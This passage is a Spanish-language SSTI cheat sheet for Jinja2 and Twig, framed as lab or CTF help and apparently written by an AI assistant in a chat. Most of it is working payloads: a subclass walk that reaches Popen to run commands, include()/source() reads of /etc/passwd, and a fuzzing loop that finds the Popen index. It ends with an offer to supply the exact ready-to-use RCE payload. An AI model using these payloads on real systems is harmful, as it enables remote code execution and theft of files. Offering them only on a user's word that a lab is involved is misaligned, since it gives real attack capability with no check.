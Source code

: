 
# 5) Payloads útiles (resumen rápido — adapta índices)

* Detección general:

```
{{ 7*7 }}
```

* Jinja2: listar subclasses

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

* Jinja2: ejecutar comando (reemplaza N por indice de Popen)

```
{{ ''.__class__.__mro__[1].__subclasses__()[N]('whoami', shell=True, stdout=-1).communicate() }}
```

* Twig: detectar PHP

```
{{ constant('PHP_VERSION') }}
```

* Twig: intento de lectura de archivo

```
{{ include('/etc/passwd') }}
```

o

```
{{ source('/etc/passwd') }}
```

---

# 6) Herramientas y automatización en laboratorio

* **Burp Suite**: repetir y modificar payloads, guardar respuestas, comparar.
* **ffuf / wfuzz**: para fuzzing de parámetros que procesan templates.
* **python + requests**: automatizar el listado de `__subclasses__()` y localizar índice con `for i in range(0,300): payload = f"...[{i}]('whoami',shell=True,stdout=-1)..."` — haz esto sólo en tu lab.
* Repositorios útiles: `payloadbox/ssti-payloads`, PortSwigger SSTI labs y writeups (tienen payloads listos).

---

# 7) Qué hacer si te quedaste “atascado” ahora mismo

1. Verifica engine con `constant('PHP_VERSION')` y `''.__class__.__mro__`.
2. Si es Jinja2 y `{{ ''.__class__.__mro__[1].__subclasses__() }}` te da output grande: copia la salida completa y busca la palabra `Popen` o `subprocess`. Anota su índice.
3. Si no encuentras `Popen`, busca `file`, `open`, `PtyProcess`, `socket` en la lista de subclasses — cualquiera que permita ejecutar/abrir recursos puede servir.
4. Si es Twig y `constant('PHP_VERSION')` funciona, intenta `include()` o inspecciona `_context`/`app` para ver variables.
5. Si quieres, pega aquí **la salida** (sólo el fragmento relevante que muestre la lista de clases o la respuesta del motor) y yo te indico exactamente qué índice usar y el payload listo para RCE en el lab.

---